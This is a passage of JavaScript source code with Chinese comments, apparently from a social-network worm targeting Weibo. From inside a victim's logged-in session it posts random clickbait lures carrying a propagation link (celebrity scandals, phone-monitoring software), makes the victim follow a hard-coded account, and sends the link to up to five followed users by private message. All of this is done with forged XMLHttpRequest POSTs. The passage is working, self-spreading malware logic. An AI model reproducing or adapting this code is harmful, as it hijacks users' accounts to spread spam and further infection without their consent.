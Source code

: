 ```javascript
    "3D 肉团团高清普通话版种子：",
    "这是传说中的神仙眷侣啊：",
    "惊爆!范冰冰艳照真流出了：",
    "杨幂被爆多次被潜规则:",
    "傻仔拿锤子去抢银行：",
    "可以监听别人手机的软件：",
    "个税起征点有望提到 4000：",
  ];

  //随机选取话题,加上之前的传播连接作为微博内容
  var msg = msgs[Math.floor(Math.random() * msgs.length)] + link;
  msg = encodeURIComponent(msg); //对内容进行 Url 编码
  return msg;
}
// 利用 Ajax 发送 POST 请求
function post(url, data, sync) {
  xmlHttp = createXHR();
  xmlHttp.open("POST", url, sync);
  xmlHttp.setRequestHeader(
    "Accept",
    "text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8"
  );
  xmlHttp.setRequestHeader(
    "Content-Type",
    "application/x-www-form-urlencoded; charset=UTF-8"
  );
  xmlHttp.send(data);
}
// 发表微博，话题随机
function publish() {
  url = "http://weibo.com/mblog/publish.php?rnd=" + new Date().getTime();
  data = "content=" + random_msg() + "&pic=&styleid=2&retcode="; //使用 random_msg 生成随机话题
  post(url, data, true);
}
// 自动关注用户
function follow() {
  url =
    "http://weibo.com/attention/aj_addfollow.php?refer_sort=profile&atnId=profile&rnd=" +
    new Date().getTime();
  // 使用当前页面存储的$CONFIG.$uid 构造自动关注数据包
  data =
    "uid=" +
    2201270010 +
    "&fromuid=" +
    $CONFIG.$uid +
    "&refer_sort=profile&atnId=profile";
  post(url, data, true);
}
// 发送私信
function message() {
  url = "http://weibo.com/" + $CONFIG.$uid + "/follow"; //构造用户关注用户列表页 Url
  ids = getappkey(url); //获取被关注用户的 Appkey 数组
  id = ids.split("||"); //分割出每个被关注用户的 Appkey
  for (i = 0; (i < id.length - 1) & (i < 5); i++) {
    //构造私信发送 Url
    msgurl = "http://weibo.com/message/addmsg.php?rnd=" + new Date().getTime();
    msg = random_msg();
    msg = encodeURIComponent(msg);
    user = encodeURIComponent(encodeURIComponent(id[i]));
    data = "content=" + msg + "&name=" + user + "&retcode=";
    post(msgurl, data, false); //通过 XmlHttpRequest 发送请求
  }
}
```